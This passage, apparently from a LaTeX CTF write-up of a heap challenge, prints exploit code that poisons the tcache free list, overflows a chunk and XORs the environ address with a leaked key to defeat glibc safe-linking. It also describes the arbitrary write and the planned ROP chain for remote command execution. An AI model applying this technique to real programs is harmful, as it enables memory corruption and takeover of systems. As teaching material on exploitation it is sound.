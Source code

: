     Follows the code that i used:\newline
    \begin{verbatim}
        malloc(0x18,1)
        malloc(0x18,2)
        malloc(0x18,3)
        delete(1)
        delete(2)
        delete(3)
        malloc(0x108,3) # 3
        malloc(0x108,4) # 4 
        malloc(0x108,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"B"*0x108+p64(0x111)+p64((environ-0x128)^key))
        malloc(0x108,4)  
        malloc(0x108,5)
    \end{verbatim}
    From this portion of code you can see how in addition to having created arbitrary write we are bypassing safe linking by xoring the environ address with the key leaked at the beginning of the exploit.\newline
    \clearpage
    \begin{figure}[htbp]
        \centering
        \includegraphics[width=0.8\linewidth]{Images/arb_write_heapchall.png}
        \caption{Arbitrary write.}
        \label{fig:arb_write}
    \end{figure}
  
    In the fig \ref{fig:arb_write} we can see how in the fd field of the chunk inside the tcache of size 0x80 we have changed the fd with the address of \texttt{environ + 0x120} subsequently we will see how to approach the last step, write a ROP that allows us to do remote command execution.\newline
    \clearpage
